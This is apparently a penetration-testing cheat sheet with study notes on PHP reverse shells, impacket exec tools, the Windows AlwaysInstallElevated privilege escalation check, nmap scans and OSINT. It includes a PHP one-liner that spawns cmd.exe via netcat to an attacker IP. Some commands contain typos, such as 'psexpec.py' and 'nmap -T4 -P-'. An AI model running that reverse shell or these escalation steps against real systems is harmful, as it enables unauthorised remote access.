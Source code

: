 ### Exploiting PHP
This is a basic reverse shell written in php 
```
<?php
system('nc.exe -e cmd.exe $yourip 4444')
?>
```
### Exploiting with exec tools
- psexpec.py
- smbexec.py
- wmiexec.py

### Exploiting with Shells
Spawning a TTY Shell - https://netsec.ws/?p=337

### impacket
https://github.com/SecureAuthCorp/impacket.git
```
cd /opt/
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket-0.9.19/
pip3 install.
```
> [!NOTE]
> The version number may change under the git clone line

# Privilege Escalation
There is a registry key that essentially allows anyone to run an MSI with full privileges. We can check this with a query and then exploit it:
**Key:** `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
**Query (cmd)**
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```
Note that the "AlwaysInstallElevated" value is 1


### netcat and nmap
[Kioptrix Download](https://tcm-sec.com/kioptrix)

Nmap
```
arp-scan
```
SYN SYNACK ACK nmap
Stealth scanning
SYN SYNACK ACK nmap -sS
SYN SYNACK RST nmap -sS

```
nmap -T4 -P- -A
```
### OSINT & Recon Resources | Intelligence Lifecycle
![image](https://github.com/user-attachments/assets/f3dcb343-e338-470e-ae98-d0b64fb11196)
https://blog.reknowledge.tech/blog/osnt-analyst-replaced-by-automation
PLANNING & DIRECTION >> COLLECTION >> PROCESSING AND EXPLOITATION >> ANALYSIS AND PRODUCTION >> DISSEMINATON AND INTEGRATION

